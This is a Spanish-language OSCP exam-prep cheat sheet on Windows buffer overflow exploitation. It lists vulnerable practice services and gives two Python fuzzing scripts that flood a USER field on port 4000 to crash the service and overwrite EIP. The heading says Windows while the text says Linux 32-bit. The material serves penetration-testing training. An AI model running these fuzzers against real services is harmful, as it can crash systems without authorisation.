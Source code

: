 # Apuntes de Preparación para el OSCP

![OSCP Image](http://funkyimg.com/i/2MPB4.png)
#### Penetration Testing with Kali Linux (PWK) course and Offensive Security Certified Professional (OSCP) Cheat Sheet

## Índice y Estructura Principal
- [Buffer Overflow Windows (25 puntos)](#Buffer-Overflow-Windows)

Buffer Overflow Windows
===============================================================================================================================
A continuación, se listan los pasos a seguir para la correcta explotación de Buffer Overflow en Linux (32 bits). Para la examinación, no se requieren de conocimientos avanzados de exploiting en BoF (bypassing ASLR, etc.), basta con practicar con servicios básicos y llevar esa misma metodología al examen.

Servicios/Máquinas con los que practicar:

-   SLMail 5.5 
-   Minishare 1.4.1
-   Máquina Brainpan de VulnHub
-   Los 2 binarios personalizados compartidos en la máquina Windows personal del laboratorio

Generalmente, la metodología a seguir es la siguiente:

-   Fuzzing

Para esta fase, es necesario en primer lugar identificar el campo en el que se produce el buffer overflow. Para un caso práctico, suponiendo por ejemplo que un servicio sobre un Host 192.168.1.45 corre bajo el puerto 4000 y que tras la conexión vía TELNET desde nuestra máquina, se nos solicita un campo USER a introducir, podemos elaborar el siguiente script en python con el objetivo de determinar si se produce un desbordamiento de búffer:

```python
#!/usr/bin/python
# coding: utf-8

import sys,socket

if len(sys.argv) != 2:
  print "\nUso: python" + sys.argv[0] + " <dirección-ip>\n"
  sys.exit(0)

buffer = ["A"]
ipAddress = sys.argv[1]

port = 4000
contador = 100

while len(buffer) < 30:
  buffer.append("A"*contador)
  contador += 200
  
for strings in buffer:
  try:
    print "Enviando %s bytes..." % len(strings)
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ipAddress, port))
    s.recv(1024)
    s.send("USER " + strings + '\r\n')
    s.recv(1024)
    s.close()
  except:
    print "\nError de conexión...\n"
    sys.exit(0)

```
De esta forma, a través de una lista, vamos almacenando en la variable **buffer** el caracter "A" un total 30 veces con un incremento para cada una de las iteraciones en 200. 

Esto es:

**[1 caracter "A", 100 caracteres "A", 300 caracteres "A", 500 caracteres "A", 700 caracteres "A", ...]**

Mientras tanto, desde _Immunity Debugger_, estando previamente sincronizados con el proceso, deberemos de utilizarlo como debugger para ver en qué momento se produce una violación de segmento.

Cuando esto ocurra, deberíamos ver como el registro **EIP** toma el valor (**41414141**), correspondiente al caracter "A" en hexadecimal.

Lo bueno de haber creado la lista, es que podemos identificar rápidamente entre qué valores se produce el Búffer Overflow, en otras palabras, si vemos que tras la ejecución de nuestro script en Python el último reporte que se hizo fue **"Enviando 700 bytes..."***, lo conveniente es modificar nuestro script al siguiente contenido:

```python
#!/usr/bin/python
# coding: utf-8

import sys,socket

if len(sys.argv) != 2:
  print "\nUso: python" + sys.argv[0] + " <dirección-ip>\n"
  sys.exit(0)

buffer = "A"*900
ipAddress = sys.argv[1]

port = 4000

try:
  print "Enviando búffer..."
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((ipAddress, port))
  s.recv(1024)
  s.send("USER " + buffer + '\r\n')
  s.recv(1024)
  s.close()
except:
  print "\nError de conexión...\n"
  sys.exit(0)

```
Siempre para asegurar es mejor mandarle los 200 caracteres siguientes de nuestro reporte. Tras la ejecución de esta variante, **Immunity Debugger** directamente nos debería reportar la violación de segmento con el valor **41414141** en el registro **EIP**.
